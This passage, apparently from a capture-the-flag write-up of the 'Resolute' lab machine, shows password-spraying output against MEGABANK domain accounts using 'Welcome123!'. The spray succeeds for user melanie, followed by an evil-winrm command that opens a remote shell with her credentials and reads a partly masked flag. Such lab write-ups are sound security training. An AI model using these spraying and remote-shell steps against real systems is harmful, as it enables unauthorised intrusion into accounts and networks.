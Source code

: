 ```
SMB         10.10.10.169    445    RESOLUTE         [-] MEGABANK\felicia:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] MEGABANK\gustavo:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] MEGABANK\ulf:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] MEGABANK\stevie:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] MEGABANK\claire:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] MEGABANK\paulo:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] MEGABANK\steve:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] MEGABANK\annette:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] MEGABANK\annika:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] MEGABANK\per:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [-] MEGABANK\claude:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.10.10.169    445    RESOLUTE         [+] MEGABANK\melanie:Welcome123! 
SMB         10.10.10.169    445    RESOLUTE         [-] MEGABANK\zach:Welcome123! STATUS_ACCESS_DENIED 
SMB         10.10.10.169    445    RESOLUTE         [-] MEGABANK\simon:Welcome123! STATUS_ACCESS_DENIED 
SMB         10.10.10.169    445    RESOLUTE         [-] MEGABANK\naoki:Welcome123! STATUS_ACCESS_DENIED 

```

Fourth from the bottom, there’s success for melanie.

### WinRM Shell

I don’t know if malanie is an administrator or in the Remote Management Users group, but it’s worth a shot to see if I can EvilWinRM to get a shell as melanie. It works:

```

root@kali# evil-winrm -i 10.10.10.169 -P 5985 -u melanie -p 'Welcome123!'

Info: Starting Evil-WinRM shell v1.7

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\melanie\Documents> 

```

And get `uset.txt`:

```
*Evil-WinRM* PS C:\Users\melanie\desktop> type user.txt
0c3be45f************************

```
